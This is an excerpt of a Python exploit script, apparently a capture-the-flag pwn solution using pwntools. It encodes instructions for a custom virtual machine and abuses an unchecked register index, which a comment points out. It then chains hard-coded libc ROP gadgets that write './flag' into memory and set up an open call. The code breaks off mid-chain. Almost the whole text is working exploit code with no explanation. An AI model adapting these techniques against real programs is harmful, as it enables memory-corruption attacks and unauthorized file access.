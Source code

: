 ```python
    global pay
    pay+=b'\x11'+b'\x00'+p8(idx1)+p8(idx2)

#reg[idx]=value
def putvalue2reg(idx,value):
    global pay
    pay+=b'\x12'+b'\x01'+p8(idx)+p64(value)

#reg[idx]=*ptr
def putvalue2reg_plus(idx,ptr):
    global pay
    pay+=b'\x12'+b'\x02'+p8(idx)+p64(ptr)

#reg[idx1]=reg[idx2]  idx2没有检查
def swapreg0(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x04'+p8(idx1)+p8(idx2)

#reg[idx1]=*reg[idx2]
def swapreg1(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x08'+p8(idx1)+p8(idx2)

#*reg[idx1]=reg[idx2]
def swapreg2(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x10'+p8(idx1)+p8(idx2)

def write_func(offset):
    reg_addvalue(7,offset) 
    swapreg2(1,7)
    reg_subvalue(7,offset)
    reg_addvalue(1,8)

def write_other(value):
    putvalue2reg(6,value)
    swapreg2(1,6)
    reg_addvalue(1,8)

def write_rop(ch,idx):
    libc.address=0
    mg1 = libc.address+0x000000000019244e#: cmp al, byte ptr [rsi - 1]; jne 0x1925c5; xor eax, eax; ret; 
    mg2 =  0x00000000001142bb#: mov qword ptr [rax], -1; xor eax, eax; ret;
    add_rax_rdi = 0x00000000000a8978#: add rax, rdi; ret; 
    mov_rdxaddr_rax = libc.address + 0x0000000000034550#: mov qword ptr [rdx], rax; ret; 
    pop_rdx = libc.address + 0x0000000000142c92#: pop rdx; ret; 
    pop_rax = libc.address + 0x0000000000036174#: pop rax; ret; 
    pop_rdi = libc.address + 0x0000000000023b6a#: pop rdi; ret; 
    pop_rsi = libc.address + 0x000000000002601f#: pop rsi; ret; 
    pop_rdx = libc.address + 0x0000000000142c92#: pop rdx; ret; 
    bss=libc.address+0x1ED7A0+0x800

    #open
    write_func(pop_rdx)
    write_func(bss)
    write_func(pop_rax)
    write_other(0x67616c662f2e)
    write_func(mov_rdxaddr_rax)
    write_func(pop_rdi)
    write_func(bss)
    write_func(pop_rsi)
    write_other(0)
```